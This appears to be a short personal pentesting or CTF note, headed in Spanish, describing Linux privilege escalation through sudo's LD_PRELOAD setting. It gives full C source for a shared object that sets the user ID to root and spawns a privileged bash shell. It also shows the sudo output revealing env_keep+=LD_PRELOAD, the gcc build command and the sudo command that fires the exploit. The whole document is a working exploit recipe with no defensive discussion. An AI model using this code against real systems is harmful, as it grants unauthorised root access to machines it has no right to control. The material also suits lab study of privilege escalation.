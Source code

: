 
###LD_PRELOAD

Contenido de preload.c

```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```
1- [+] We can sudo without supplying a password!

Matching Defaults entries for user on this host:
    env_reset, env_keep+=LD_PRELOAD, env_keep+=LD_LIBRARY_PATH,
    
2- gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c

3- sudo LD_PRELOAD=/tmp/preload.so find


